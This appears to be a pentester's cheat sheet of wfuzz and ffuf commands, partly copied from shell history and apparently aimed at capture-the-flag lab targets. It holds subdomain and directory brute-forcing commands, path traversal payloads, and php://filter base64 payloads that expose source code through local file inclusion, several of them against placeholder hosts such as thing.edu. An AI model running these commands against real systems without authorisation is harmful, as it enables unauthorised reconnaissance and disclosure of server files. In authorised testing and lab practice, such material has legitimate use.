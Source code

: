 Subdomains.

wfuzz -c -f re -w /SecLists/Discovery/DNS/subdomains-top1mil-5000.txt -u "http://domain.htb" -H "Host: FUZZ.domain.htb" --hh 311\

<br>
<br>


ffuf -b 'PHPSESSID=p8kcoc7avjam3v9i4sovt62gfa' -c -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u http://192.168.1.136/sea.php\?file\=../../../../FUZZ -fw 56
<br>
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://<TARGET_URL>/FUZZ -mc 200,204,301,302,307,401 -o results.txt
<br>
ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://<TARGET_URL>/ -H "Host: FUZZ.<TARGET_URL>" -fs 185
<br>
ffuf -c -w /usr/share/wordlists/seclists/Fuzzing/4-digits-0000-9999.txt -u http://<TARGET_URL>/backups/backup_2020070416FUZZ.zip
<br>
ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u http://<TARGET_URL>/admin../admin_staging/index.php?page=FUZZ -fs 15349
<br>
<br>  
<br>

 1565  ffuf -u 'http://lolol.thing/index.php?page=php://filter/convert.base64-encode/resource=../FUZZ/index' -w /usr/share/wfuzz/wordlist/webservices/ws-dirs.txt -fc 200
 <br>
 1567  ffuf -u 'http://lolol.thing/index.php?page=php://filter/convert.base64-encode/resource=../FUZZ/index' -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt -fc 200
 <br>
 1569  ffuf -u 'http://lolol.thing/index.php?page=php://filter/convert.base64-encode/resource=../FUZZ/index' -w /usr/share/wfuzz/wordlist/webservices/ws-dirs.txt -fc 200
<br>
<br>

<br>
1556  ffuf -u 'http://thing.edu/index.php?page=php://filter/convert.base64-encode/resource=../FUZZ/index' -w /usr/share/wfuzz/wordlist/webservices/ws-dirs.txt -fc 200
<br>
 1565  ffuf -u 'http://thing.edu/index.php?page=php://filter/convert.base64-encode/resource=../FUZZ/index' -w /usr/share/wfuzz/wordlist/webservices/ws-dirs.txt -fc 200
 <br>
 <br>
 1569  ffuf -u 'http://thing.edu/index.php?page=php://filter/convert.base64-encode/resource=../FUZZ/index' -w /usr/share/wfuzz/wordlist/webservices/ws-dirs.txt -fc 200
 <br>
 

 1576  sed 's/^/preprod-/' subdomains-top1million-110000.txt \nsudo wfuzz -c -f out -w wordlist -u "http://thing.edu" -H "Host: FUZZ.thing.edu"  --hw 475
 <br>
 1582  sed 's/^/preprod-/' /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt \nsudo wfuzz -c -f out -w wordlist -u "http://thing.edu" -H "Host: FUZZ.thing.edu"  --hw 475
 <br>
 1588  sudo wfuzz -c -f out -w wordlist -u "http://thing.edu" -H "Host: FUZZ.thing.edu"  --hw 475
 <br>
 1589  sudo wfuzz -c -f out -w WORDLIST -u "http://thing.edu" -H "Host: FUZZ.thing.edu"  --hw 475
<br>
<br>

